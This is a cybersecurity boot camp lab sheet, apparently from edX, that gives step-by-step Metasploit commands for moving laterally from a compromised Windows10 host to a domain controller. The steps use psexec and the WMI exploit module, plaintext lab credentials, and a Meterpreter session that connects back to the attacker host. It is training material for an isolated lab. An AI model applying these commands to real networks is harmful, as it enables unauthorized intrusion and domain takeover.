


## Activity File: Lateral Movement 

For this activity, you will use bbaner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!

### Instructions

1. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- 	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- 		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows10 and WINDC01, instead of Kali to WINDC01. 

---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
